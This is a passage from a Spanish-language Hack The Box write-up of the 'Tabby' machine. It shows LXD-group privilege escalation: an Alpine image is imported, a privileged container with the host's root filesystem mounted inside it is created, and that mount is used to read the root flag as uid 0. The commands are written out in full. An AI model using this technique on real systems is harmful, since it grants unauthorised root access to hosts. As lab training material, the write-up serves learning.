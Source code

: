 Ahora, vamos a importar la imagen e inicializamos el `lxd` antes de utilizarlo.

```bash
ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200621_0334.tar.gz --alias hackthebox                                            
<3.12-x86_64-20200621_0334.tar.gz --alias hackthebox                                                                                   
ash@tabby:~$ lxd init                                       
lxd init                                                                                                                               
Would you like to use LXD clustering? (yes/no) [default=no]:
Do you want to configure a new storage pool? (yes/no) [default=yes]:
Name of the new storage pool [default=default]:
Name of the storage backend to use (btrfs, dir, lvm, ceph) [default=btrfs]:
Create a new BTRFS pool? (yes/no) [default=yes]:
Would you like to use an existing block device? (yes/no) [default=no]:
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like LXD to be available over the network? (yes/no) [default=no]:
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:
```

Ahora sí inicializamos la imagen que creamos anteriormente en un nuevo contenedor y montamos este dentro del directorio `/root`

```bash
ash@tabby:~$ lxc init hackthebox ignite -c security.privileged=true
lxc init hackthebox ignite -c security.privileged=true
Creating ignite

ash@tabby:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite

ash@tabby:~$ lxc start ignite
lxc start ignite
```

Y ahora ejecutamos la shell y nos dirigimos al directorio `/mnt/root/root` para obtener la flag del root. Nos crea una shell con un aspecto peculiar pero no hay problema, podemos escribir los comandos de consola común y corriente.

```bash
ash@tabby:~$ lxc exec ignite /bin/sh              
lxc exec ignite /bin/sh                                                                                                                                           
~ # ^[[24;5Rid                                     
id                        
uid=0(root) gid=0(root)                                                                                                                
~ # ^[[24;5Rcd /mnt/root/root
cd /mnt/root/root

/mnt/root/root # ^[[24;18Rls
ls
root.txt
/mnt/root/root # ^[[24;18Rcat root.txt
cat root.txt
7749b3...........................
```